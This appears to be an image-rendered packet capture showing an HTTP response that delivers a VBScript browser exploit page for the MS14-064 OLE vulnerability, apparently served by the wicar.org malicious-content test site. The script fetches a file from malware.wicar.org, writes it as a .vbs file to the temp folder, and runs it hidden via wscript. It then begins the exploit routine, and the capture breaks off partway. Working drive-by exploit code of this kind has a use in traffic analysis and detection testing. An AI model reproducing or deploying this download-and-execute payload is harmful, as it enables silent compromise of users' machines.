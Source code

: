 ```
    208.94.116.21.80 > 10.1.1.10.51137: Flags [P.], seq 296:1756, ack 1, win 32120, length 1460: HTTP
E...1<..3..b.^t.
..
.P...qC..;.)P.}xw...<!doctype html>
<html>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" >
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<body>
<script language="VBScript">
function runaaaa()
On Error Resume Next

set xmlhttp = CreateObject("Microsoft.XMLHTTP")
xmlhttp.open "GET", "http://malware.wicar.org/data/ms14_064_ole_xp.gif", False
xmlhttp.send

Set objFSO=CreateObject("Scripting.FileSystemObject")
folder = objFSO.GetSpecialFolder(2)
scriptName = folder + "\HuvP.vbs"
Set objFile = objFSO.CreateTextFile(scriptName,True)
objFile.Write xmlhttp.responseText
objFile.Close

set shell=createobject("Shell.Application")
shell.ShellExecute "wscript.exe", scriptName, "", "open", 0

end function
</script>
<script language="VBScript">

dim   aa()
dim   ab()
dim   a0
dim   a1
dim   a2
dim   a3
dim   win9x
dim   intVersion
dim   rnda
dim   funclass
dim   myarray

Begin()

function Begin()
  On Error Resume Next
  info=Navigator.UserAgent

  if(instr(info,"Win64")>0)   then
     exit   function
  end if

  if (instr(info,"MSIE")>0)   then
             intVersion = CInt(Mid(info, InStr(info, "MSIE") + 5, 2))
  else
     exit   function

  end if

  win9x=0

  BeginInit()
```